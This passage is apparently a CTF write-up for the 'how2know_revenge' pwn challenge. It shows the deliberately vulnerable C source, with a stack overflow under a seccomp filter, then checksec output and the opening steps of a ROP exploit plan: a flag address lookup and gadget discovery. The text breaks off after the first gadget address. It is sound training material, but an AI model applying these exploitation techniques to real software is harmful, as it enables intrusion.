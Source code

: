 #### Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <stdlib.h>

static char flag[0x30];

int main()
{
    char addr[0x10];
    int fd;
    scmp_filter_ctx ctx;

    fd = open("/home/chal/flag", O_RDONLY);
    if (fd == -1)
        perror("open"), exit(1);
    read(fd, flag, 0x30);
    close(fd);

    write(1, "talk is cheap, show me the rop\n", 31);
    read(0, addr, 0x1000);

    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    return 0;
    
}
```
```bash!
$ gcc -static -fno-stack-protector -o chal how2know_revenge.c -lseccomp
$  checksec chal
[*] '/home/sbk6401/CTF/AIS3/PWN/how2know_revenge/share/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
##### Description & Preliminary Idea
The whole process flow is almost the same as [how2know](/jHf3sAfOTveOIguRGXXmwQ). The difference is global variable turned into local variable and it has buffer overflow obviously. So, we can find various `ROP` and access into it and brute force to compare the single char of the flag.

#### Exploit - `ROP` + [how2know](/jHf3sAfOTveOIguRGXXmwQ)
1. Find `flag` address → <font color="FF0000">`0x4de2e0`</font>
    ```bash
    $ objdump -d -M Intel chal | grep "<flag>"
      401cfe:       48 8d 35 db c5 0d 00    lea    0xdc5db(%rip),%rsi        # 4de2e0 <flag>
    ```
2. Create `ROP` chain
    ```bash!
    $ ROPgadget --binary chal --multibr > rop_gadget
    $ vim rop_gadget
    ```
    ```python!
    pop_r14_ret = 0x402797